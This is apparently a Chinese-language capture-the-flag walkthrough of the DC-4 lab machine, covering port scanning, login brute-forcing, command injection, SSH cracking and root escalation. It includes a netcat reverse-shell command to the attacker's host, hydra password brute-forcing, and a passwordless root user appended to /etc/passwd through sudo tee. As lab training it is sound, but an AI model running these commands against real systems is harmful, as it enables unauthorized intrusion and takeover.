 
# 0x00环境

攻击机：kali（192.168.1.28）

靶机：DC-4（192.168.1.12）


# 0x01实战


## 端口扫描

```
nmap -sV -A -p- 192.168.1.12
```

![image-20220111094642715.png](./assets/1652256328235-3a48ced6-cb03-4105-9180-1a8eb3cf434f.png)

可以看到开放了22号端口SSH服务和80端口HTTP服务

访问HTTP服务，是一个登录页面

![image-20220111094804504.png](./assets/1652256333137-640078ab-7043-44a7-81d1-ae18130ccf4f.png)

查看网页源码，没什么卵用

![image-20220111094904759.png](./assets/1652256336615-fe3968c0-5669-46f3-b1b3-9f609660a732.png)


## 目录扫描

并没有什么有用的信息

![image-20220111095500468.png](./assets/1652256340086-eb549f2f-62f8-4aa6-8a14-0d17a0b00b0c.png)


## 暴力破解

输入账户admin任意密码，使用burpsuite抓包进行爆破

![image-20220111100742650.png](./assets/1652256343257-ea434143-8694-4194-a397-61d8ba0b0feb.png)

爆破出密码为happy


## 漏洞发现

登录系统后发发现是一个可以执行系统命令的页面

![image-20220111100919355.png](./assets/1652256347511-7b40f9f4-964e-4c22-ae17-76c472859fd9.png)

尝试使用burpsuite抓包修改命令来实现SRC

![image-20220111101149990.png](./assets/1652256351029-10171776-c668-4f7a-b465-d0cac5742f68.png)

可以执行任意命令，尝试使用nc反弹shell


## 漏洞利用

设置监听

```
nc -vnlp 1234
```

![image-20220111101549464.png](./assets/1652256355137-947753d1-5d30-473d-a762-a47eabbfa5c8.png)

使用NC反弹shell

```
nc 192.168.1.28 1234 -e /bin/bash
```

![image-20220111101918954.png](./assets/1652256359009-7761984f-4a09-48e8-991b-d92724b78a86.png)

成功反弹

![image-20220111102027031.png](./assets/1652256363338-f4f0261a-b2c5-4d49-8e25-19232ea328c0.png)

查看/etc/passwd文件

![image-20220111113446593.png](./assets/1652256366494-bd87be74-6feb-4e06-bb60-695a3329da02.png)

在jim目录下的backups目录中发现字典文件old-passwords.bak

![image-20220111113740020.png](./assets/1652256370547-b1fb822d-221f-4dd4-88fa-a223a927d8bc.png)

将字典文件保存下来使用hydra进行爆破

```
hydra -l jim -P password.txt ssh://192.168.1.12
```

![image-20220111114918220.png](./assets/1652256376049-fdaf69dc-538b-48bc-90cc-0e6ac951adf0.png)

得到jim的密码jibril04

使用jim账号登录

```
ssh jim@192.168.1.12
```

![image-20220111115213797.png](./assets/1652256381354-a268e7be-9a38-4593-ac36-c56f9d94a490.png)

查看jim目录下的mbox文件可以发现在2019年4月6日星期六20:20:04，收到了一封来自root的邮件

![image-20220111115736723.png](./assets/1652256384722-6856bf5a-912c-49cf-be36-fa6883ae4973.png)

查看该邮件

![image-20220111115935335.png](./assets/1652256388080-d4472441-99c6-4cdf-a24f-cbe08fbefc56.png)

在邮件中我们得到了一个用户密码charles/^xHhA&hvim0y

登录charle并查看scharles的sudo权限

![image-20220111120240351.png](./assets/1652256391926-427fbb06-2a5b-44f0-ba00-cc524198a87d.png)

显示我们可以以root权限运行teehee命令

![image-20220111120535688.png](./assets/1652256395862-fce2f126-c4f7-4c79-a4bf-5044adabac4d.png)

tee命令用于读取标准输入的数据，并将其内容输出成文件。在这里我们是root权限，所以我们可以给所有文件随意添加内容。


## 提权

向/etc/passwd中写入一个拥有root权限的用户
```
echo "XMTX::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```

![image-20220111135359205.png](./assets/1652256399016-4c74cdbf-c51a-4a15-8db6-7e3670893ee7.png)


## final-flag

在root根目录下找到flag

![image-20220111135511524.png](./assets/1652256402114-664d07a2-0feb-4487-bc6c-c3d4166f083a.png)
